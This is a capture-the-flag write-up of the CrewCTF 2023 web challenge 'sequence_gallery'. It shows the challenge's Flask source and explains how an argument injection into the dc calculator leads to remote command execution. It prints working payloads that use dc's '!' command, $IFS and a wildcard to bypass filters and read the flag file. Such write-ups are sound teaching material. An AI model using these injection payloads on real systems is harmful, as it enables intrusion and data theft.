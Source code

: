 # sequence_gallery

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

- Do you like sequences?

Author : Satoooon

[http://sequence-gallery.chal.crewc.tf:8080/](http://sequence-gallery.chal.crewc.tf:8080/)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708134050.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708145108.png)

**In here, we can click the "View" button to see the output of each functions:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708145125.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/Web/sequence_gallery/sequence_gallery.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|14:51:57(HKT)]
└> unzip sequence_gallery.zip 
Archive:  sequence_gallery.zip
   creating: dist/
   creating: dist/src/
  inflating: dist/src/factorial.dc   
  inflating: dist/src/fibonacchi.dc  
  inflating: dist/src/flag.txt       
  inflating: dist/src/main.py        
  inflating: dist/src/power.dc       
   creating: dist/src/templates/
  inflating: dist/src/templates/index.html  
```

**In `dist/src/main.py`, we can see the web application logic:**
```python
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)
```

In route `/`, when the `sequence` GET parameter is given, it'll strip out all rest of the path and ONLY extract the filename. Then, it'll append `.dc` to the filename. For example, parameter value `power` will become `power.dc`.

Moreover, if the `sequence` GET parameter's value contains ` ` or `flag`, it'll return `:(`.

After that, it'll use `subprocess.run()` method to execute a Linux command called `dc`, and with the `sequence` GET parameter's value as the ***argument***. Notice that the `Shell` argument is not provided, which means **we can't inject OS command**. (Or is it :D)

Finally, use `render_template()` to render the `output` of the `dc` command. (`render_template()` is not vulnerable to Server-Side Template Injection (SSTI))

## Exploitation

Now, in `subprocess.run()` method it doesn't have `Shell=True`, however it doesn't mean it's not vulnerable.

Our `sequence` GET parameter's value is being parsed as an argument in the `dc` command, thus it's ***vulnerable argument injection***:

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150122.png)

Nice! We can now confirm it's vulnerable to argument injection.

Hmm... I wonder what's `dc` in Linux...

**Let's install and view it's `man` page:**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:45(HKT)]
└> sudo apt install dc
[...]
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:47(HKT)]
└> man dc
[...]
DESCRIPTION
       dc  is  a  reverse-polish  desk calculator which supports unlimited precision arithmetic.  It
       also allows you to define and call macros.  Normally dc reads from the standard input; if any
       command arguments are given to it, they are filenames, and dc reads and executes the contents
       of the files before reading from standard input.  All normal output is  to  standard  output;
       all error output is to standard error.

       A  reverse-polish  calculator  stores numbers on a stack.  Entering a number pushes it on the
       stack.  Arithmetic operations pop arguments off the stack and push the results.

       To enter a number in dc, type the digits (using upper case letters A through  F  as  "digits"
       when working with input bases greater than ten), with an optional decimal point.  Exponential
       notation is not supported.  To enter a negative number, begin the number with  ``_''.   ``-''
       cannot  be  used  for this, as it is a binary operator for subtraction instead.  To enter two
       numbers in succession, separate them with spaces or newlines.  These have no meaning as  com‐
       mands.
[...]
```

With that said, it's basically a *calculator*.

**However, when I was reading the `man` page, I found this:**
```shell
[...]
Miscellaneous
       !      Will run the rest of the line as a system command.  Note that parsing of the  !<,  !=,
              and  !>  commands take precedence, so if you want to run a command starting with <, =,
              or > you will need to add a space after the !.
[...]
```

Wow! So we can execute OS command? Cool!

**Let's try the following payload:**
```shell
-e !id
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150507.png)

Uhh... I forgot the ` ` filter.

**In order to bypass the ` ` filter, we can try to replace ` ` with anything else:**
```shell
-e"!id
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150638.png)

We bypassed the filter! However, the `id` command still didn't execute...

**This is because our `id` command hasn't pressed the Enter key, or the new line character `\n` (`%0a` in URL encoding):**
```
-e"!id%0a
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708150815.png)

Nice! We can now execute arbitrary OS commands! 

**Let's get the flag!**
```
-e"!cat flag.txt%0A
```

Uh... Wait, the filters!

This time, since the ` ` is executed on the system, we need to find other bypasses.

Based on my experience, some Bash jail CTF challenges have banned ` ` the character.

In Bash, **we can use the `$IFS` special shell variable**. The `$IFS` (Internal Field Separator) is used by the shell to determine how to do word splitting, the default value for `$IFS` consists of whitespace characters.

Next, we need to bypass the `flag` filter.

To do so, we can use the `*` wildcard character, which will then read all the files in the current working directory.

**Hence, the final payload will be:**
```shell
-e"!cat$IFS*.txt%0A
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/images/Pasted%20image%2020230708151601.png)

- **Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`**

```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:18:28(HKT)]
└> dc         
10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx
DoULikeDC?
```

- Real flag (?) : `crew{DoULikeDC?}`

## Conclusion

What we've learned:

1. Remote Code Execution Via Argument Injection With `dc` Command